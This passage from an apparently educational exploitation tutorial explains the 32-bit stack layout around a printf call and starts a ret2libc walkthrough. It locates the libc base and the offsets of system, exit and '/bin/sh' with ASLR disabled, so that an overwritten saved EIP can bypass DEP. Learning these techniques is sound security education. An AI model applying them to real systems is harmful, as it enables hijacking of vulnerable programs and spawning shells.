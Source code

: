 This can vary from compiler to compiler so watch out but I'd be surprised if you found any different behaviour than the above.  So now if we call the function, what does the stack look like?  We move one instruction forward and we'll be at `0xf7e52020 <printf>:	call   0xf7f26289` which is the first instruction in printf.  The stack looks like this:
```
0000| 0xffffd03c --> 0x804842b (<main+32>:	add    esp,0x10)
0004| 0xffffd040 --> 0x80484c0 ("Hello Wor%id\n")
0008| 0xffffd044 --> 0x1 
0012| 0xffffd048 --> 0xffffd10c --> 0xffffd2ef ("XDG_VTNR=7")
0016| 0xffffd04c --> 0x8048461 (<__libc_csu_init+33>:	lea    eax,[ebx-0xf8])
```
We can see that `main+32` has been pushed onto the stack.  If we look back up at the disassembly this is the instruction directly following our call to `printf`.  This is the saved EIP and is pushed onto the stack when a function is called.  It is also the value we overwrite any time we do a buffer overflow.  Once this function exits, this value on the stack will be popped back into the EIP register so execution will resume back in our original function.

So now we have enough information to know what our stack looks like just before a function is called.  And if we make it look like below, can control what function is called and what function it returns to after:

![](https://image.ibb.co/ksSp8m/Untitled_Diagram.png)

Since we can overflow the buffer, we can write values to the stack after EIP.  With the knowledge we now have, we can craft our stack in such a way that we perform arbitrary actions regardless of DEP.

ret2libc
------
So looking at our mappings file, we first find the address of our libc library in virtual memory.  Remember that ASLR is disabled, so this will remain constant throughout executes.
``` 
b7e0a000-b7fba000 r-xp 00000000 08:01 934137     /lib/i386-linux-gnu/libc-2.23.so
``` 

We then need to find the offset of our required functions

``` 
root@ubuntu:/home/ubuntu/Desktop/bof3# readelf -s /lib/i386-linux-gnu/libc-2.23.so | grep system 
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0 
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE 
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0 
``` 
We'll want to cleanly exit once we're done, so we need to use the `exit` function:
``` 
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0 
```

We have our offsets from libc and our libc base address.  We now just need to a reference to the string '/bin/sh' to pass in as an argument.  We can do this in a few ways.  Either pass in our own custom string via the buffer and then reference that, or find the reference within libc:

```
ubuntu@ubuntu:~/Desktop/bof3$ strings -a -t x /lib/i386-linux-gnu/libc-2.23.so | grep /bin/sh
 15ba0b /bin/sh
```
